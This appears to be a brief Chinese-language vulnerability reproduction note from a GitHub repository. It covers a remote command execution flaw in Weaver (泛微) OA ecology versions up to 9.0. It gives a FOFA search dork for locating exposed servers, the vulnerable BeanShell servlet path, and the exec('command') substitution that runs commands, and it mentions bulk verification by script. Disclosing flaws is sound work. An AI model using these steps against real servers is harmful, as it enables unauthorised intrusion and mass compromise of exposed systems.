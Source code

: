 # 影响范围：
泛微OA<=9.0
# FoFa Dork
"Set-Cookie: ecology_JSessionId"
# 漏洞复现：
登录页面：
![image](images/login.png)
访问漏洞地址
```/weaver/bsh.servlet.BshServlet```  
![image](images/servlet.png)
将```print```替换为```exec('command')```,evaluate。
![image](images/print.png)
返回结果：  
![image](images/exec.png) 
使用脚本批量验证：    
![image](images/script.png)  